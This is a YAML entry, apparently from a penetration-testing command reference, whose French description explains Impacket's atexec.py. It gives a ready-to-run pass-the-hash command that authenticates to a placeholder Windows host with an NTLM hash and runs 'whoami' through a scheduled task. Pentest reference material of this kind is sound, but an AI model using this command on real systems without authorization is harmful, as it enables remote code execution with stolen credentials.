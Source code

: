 ```yaml
---
description: |
  La commande atexec.py d'Impacket utilise le service de planification des tâches sur l'hôte Windows distant pour exécuter la commande donnée. Il créera une tâche Windows avec un nom aléatoire, déclenchera la tâche, puis la supprimera. La commande suivante exécute `whoami` sur l'hôte Windows distant, en s'authentifiant avec le hash de l'utilisateur `john`.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76

  	Command Executed: whoami
command: |
  python3 atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 test.local/john@10.10.10.1 whoami
items:
  - Hash
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py
  - https://u0041.co/blog/post/1
---
```

